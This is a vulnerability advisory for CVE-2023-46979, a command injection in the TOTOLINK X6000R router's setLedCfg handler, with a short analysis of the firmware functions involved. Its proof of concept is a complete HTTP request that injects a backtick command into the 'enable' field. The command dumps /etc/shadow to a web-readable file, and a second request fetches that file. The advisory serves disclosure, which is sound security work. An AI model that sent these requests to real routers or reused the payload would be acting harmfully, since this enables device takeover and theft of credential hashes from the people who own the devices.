








# TOTOLINK X6000R V9.4.0cu.852_B20230719 Command Injection

## Product Information

Product: TOTOLINK X6000R
Firmware Version: V9.4.0cu.852_B20230719
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html



## Vulnerability Description

The `enable` parameter of `setLedCfg` in `shttpd` is controllable, and there is no verification of the input `enable` parameter. The `enable` parameter will then be spliced into a command and executed, which will eventually lead to command injection.

### POC

injection the command "(ls&&id&&cat /etc/shadow)>/web/111.txt"

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 77
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/advance/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"enable":"1`(ls&&id&&cat /etc/shadow)>/web/111.txt`","topicurl":"setLedCfg"}
```



check the result：

```http
GET /111.txt HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```





## Analysis

`sub_411F90`will handle the `setLedCfg` request, this function firstly gets `enable` value from the request body, and then pass to `Uci_Set_Str` function,



and then pass to `CsteSystem` function,





and then lead to command injection.



## CVE-2023-46979